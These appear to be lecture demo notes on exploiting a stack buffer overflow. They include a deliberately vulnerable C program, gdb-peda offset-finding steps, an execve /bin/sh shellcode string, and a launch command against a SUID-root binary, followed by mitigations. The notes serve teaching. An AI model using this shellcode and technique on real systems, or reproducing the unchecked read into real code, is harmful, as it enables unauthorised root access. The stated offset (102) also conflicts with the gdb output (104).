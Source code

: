 0. Setup

  1. Start with 427hax container running
  2. Have Vim open to classic.c
  3. Have Docker loaded and gdb running
  4. Keynote up and ready

1. Intro: keynote pres on exploits in OS zooming in

2. Preliminaries

  1. Describe the address space layout: fig on board + gdb
  ```
  gdb-peda$ info proc mappings
  ```

3. Attack Example

  1. Code Review: classic.c
```C
#include <stdio.h>
#include <unistd.h>

int vuln() {
    char buf[80];
    int r;
    r = read(0, buf, 400);
    printf("\nRead %d bytes. buf is %s\n", r, buf);
    puts("No shell for you :(");
    return 0;
}

int main(int argc, char *argv[]) {
    printf("Try to exec /bin/sh");
    vuln();
    return 0;
}
```
    Key points: small buff (80 bytes) but large read (400
    bytes): clear overflow

    - Where does that go?

  2. Test! By input 400 A's

```
gdb-peda$ r < in400A.txt
```

  3. What happened?

    1. What is 0x41414141414141414141....? --- A in ASCII
    2. What is RSP?
    3. Why is RBP 0x4141...
    4. What operation did we segfault on? `ret`
    5. Why? went into kernel virtual address regions

  4. Fix it. How? Write a pattern to see where things are:

```
gdp-peda$ r < in400pattern.txt
```

  5. Find the pattern:
```
gdb-peda$ x/wx $rsp
0x7fffffffe508: 0x41413741

gdb-peda$ pattern_offset 0x41413741
1094793025 found at offset: 104
```
    We can see that the pattern allows us to identify that
    the RSP is 102 bytes from the beginning, so that is
    where we put our target location in the attack string.

  6. User a safe pattern to improv our execution;
```
gdb-peda$ r < in400safe.txt
```
    What happened? B was the offset of 102 and it now
    allowed the return to work.

  7. How bout we now do something useful with that? Shell
     code setup by exporting and finding location.

```
$ export PWN=`python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
```

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	char *ptr;

	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```
    Note: ENV is placed right before the stack region, this
    tells us where it is located at assuming the location is
    always the same.
```
$ ~/getenvaddr PWN ./classic
```

  8. Note that classic runs with SUID root, meaning
     privilege will be root when exploited

  9. Now we Launch!!!!!

```
(cat inShellCodeTarget.txt; cat) | stacksmash/classic
```

  10. What can we do to solve?

    1. Make the stack non-executable
    2. Add Canary
    3. Randomize stack location: enable stack and go

      - Enable randomization and show stack move


